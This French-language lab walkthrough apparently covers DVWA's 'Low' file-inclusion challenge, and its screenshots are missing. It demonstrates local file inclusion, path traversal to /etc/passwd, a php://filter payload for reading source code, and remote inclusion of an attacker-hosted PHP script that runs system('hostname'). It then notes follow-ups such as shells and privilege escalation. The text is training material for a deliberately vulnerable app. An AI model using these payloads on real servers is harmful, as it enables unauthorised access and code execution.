










# Niveau "Low"

Ce challenge propose une première page permettant d'accéder à trois fichiers nommés respectivement "file1.php", "file2.php" et "file3.php" :



Dont voici le contenu du fichier "file1.php" :



Du fichier "file2.php" :



Ainsi que de "file3.php" :



**Local File Inclusion (LFI)**

Ce qui est important de repérer ici, c'est que le nom du fichier à inclure se retrouve en tant que valeur du paramètre `page` présent dans l'URL :




_Inclusion d'un fichier local du même niveau d'arborescence_

Une première attaque va consister à inclure des pages localement présentes, soit une LFI. Avec, dans un premier temps, un fichier au même niveau de l’arborescence :




_Inclusion d'un fichier local en utilisant une attaque de type path traversal_

Ou alors, de sortir du niveau courant de l'arborescence et d'utiliser dans le même temps une autre attaque nommée path traversal (ou directory traversal). Cette attaque consiste à injecter des occurrences de type `../` (ou équivalent) afin de remonter l’arborescence du système vulnérable :



Il est possible sous DVWA en niveau "Low" d'utiliser directement la syntaxe `?page=/etc/passwd` mais cela peut ne pas fonctionner suivant l'application ou le système cible



_Utilisation des wrappers PHP_

Lorsqu'une vulnérabilité LFI est détectée, il peut être utile, si cela est possible, d'utiliser les wrappers PHP afin d'avoir plus d'impact. Par exemple, le wrapper `php://filter` peut être utilisé pour récupérer le code source des pages `.php` . Dans l'exemple suivant, je récupère le code source (en haut de la page, encodé en base64) de la page `include.php` :

```http
?page=php://filter/convert.base64-encode/resource=include.php
```



Une fois décodée (il s'agit juste d'un extrait) :



D'autres wrappers sont intéressants à exploiter et peuvent mener à une RCE.


**Remote File Inclusion (RFI)**

Une RFI survient quand il est possible d'injecter/d'inclure un fichier distant. Ici un exemple simple est l'inclusion de la page `google.fr` :

```http
?page=http://www.google.fr
```



Cette attaque peut permettre d'inclure un script malicieux distant (hébergée sur une machine contrôlée par l'attaquant). L'exemple ici ne fera que retourner le nom de la machine (qui est, dans mon cas, l'identifiant de l'instance docker) :


```php
<?php
  system('hostname');
?>
```




Cela mène donc à une prise de contrôle du serveur.


Cela ne s'arrête pas là mais les possibilités sont vastes : récupération d'un shell plus complet, maintien de l'accès, tentative d'élévation de privilèges, pivotage, ...

